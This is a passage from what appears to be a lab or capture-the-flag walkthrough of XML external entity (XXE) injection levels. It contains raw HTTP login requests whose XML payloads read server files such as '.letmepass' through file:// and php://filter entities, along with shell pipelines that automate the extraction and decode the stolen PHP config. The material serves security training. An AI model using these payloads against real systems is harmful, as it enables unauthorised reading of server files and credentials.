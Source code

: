 ```bash
Origin: http://1.xxe.labs
Connection: close
Referer: http://1.xxe.labs/

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///var/www/2/.letmepass" > ]>
<login>
<username>
&ext;
</username>
<password>
asd
</password>
</login>                                          
```
Automating it becomes:
```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www/xxe/2/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g'
```
And then to query the whois:
```bash
curl -s 'http://2.xxe.labs/whois.php' -X DELETE | base64 -d
```
### Level 3
Injection with burp stays the same:
```bash
POST /login.php HTTP/1.1
Host: 3.xxe.labs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
AuthXXE: login
X-Requested-With: XMLHttpRequest
Content-Length: 280
Origin: http://1.xxe.labs
Connection: close
Referer: http://1.xxe.labs/

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "php://filter/convert.base64-encode/resource=/var/www/3/.letmepass.php" > ]>
<login>
<username>
&ext;
</username>
		  	<password>
asd
</password>
</login>                                          
```
Automating with the script:
```bash
./exploit.sh php://filter/convert.base64-encode/resource=/var/www /3/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g' \
| base64 -d > whaat.php
```
And then to read the config file:
```bash
echo 'var_dump($config);' >> whaat.php | php whaat.php
```